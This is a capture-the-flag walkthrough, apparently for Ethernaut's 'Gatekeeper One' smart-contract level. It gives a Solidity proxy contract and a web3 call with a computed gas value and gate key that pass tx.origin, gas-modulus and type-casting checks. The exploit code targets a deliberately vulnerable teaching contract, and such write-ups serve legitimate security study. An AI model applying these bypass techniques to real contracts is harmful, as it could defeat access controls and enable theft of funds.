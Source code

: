 To pass this level there are three "gates" we need to pass:
- `msg.sender != tx.origin` - the sending address must not match the origin address
- `msg.gas.mod(8191) == 0` - the gas remaining must be exactly divisible by 8191
- We must provide a key such that:
  - `uint32(_gateKey) == uint16(_gateKey)`
  - `uint32(_gateKey) != uint64(_gateKey)`
  - `uint32(_gateKey) == uint16(tx.origin)`

To pass the first gate we can create a "proxy" contract which will call the level instance for us.

```solidity
pragma solidity ^0.4.18;

interface GatekeeperOne {
    function enter(bytes8 _gateKey) external; 
}

contract GKOneProxy {
    function send(uint gas, bytes8 key) public {
        GatekeeperOne gk = GatekeeperOne(0x65c1bE06e049cCdBC8B132e88b44Ae7273E1cCf8);
        gk.enter.gas(gas)(key);
    }
}
```

To get the correct amount of gas we can step through in a debugger and find out how much gas has been used when we do the check, and then we know how much to add on to our desired value. In this case there was 215 gas used, and we wanted to have a remaining gas value of 81910, which is exactly divisible by 8191, so we pass a gas value of `81910 + 215 = 82125`.

For the final gate we just need the 3rd and 4th low byte to be 0, we need any of the upper 4 bytes to be non-zero and we need the low 2 bytes to match the low 2 bytes of our own address. Given these contraints we can easily come up with a value which will work `0xffffffff000006cc`.

Putting this all together:
```javascript
var c = web3.eth.contract(abi).at("0x5798a24a463c010f1214d6b1f7df3e1be6519794")
c.send(82125, "0xffffffff000006cc", {from: player, gas: 300000}, (err, res) => {})
```
